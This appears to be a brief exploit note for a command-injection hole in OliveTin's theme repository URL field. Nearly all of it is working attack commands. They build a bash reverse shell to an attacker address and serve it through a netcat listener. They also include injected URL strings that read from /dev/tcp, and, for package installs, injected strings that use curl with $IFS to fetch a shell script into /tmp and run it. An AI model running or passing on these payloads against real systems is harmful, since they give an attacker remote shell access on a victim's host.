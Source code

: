 on attack box make a rev shell file
```
echo "bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1" > shell.sh
```

then run netcat on port 80 or 443 (cant have any special ports)
```
nc -lvp 80 < shell.sh
```

from the olivetin theme repo then (only from docker container)
```
http://a;sh</dev/tcp/<attacker_ip>/80
```

on service(.deb file or .rpm) this writes to the host
```powershell
http://;/usr/bin/curl$IFS"http://<attcker_ip>/shell"$IFS"-o"$IFS"/tmp/shell"
```
then in a second command do to get shell
```powershell
http://;bash$IFS/tmp/shell
```
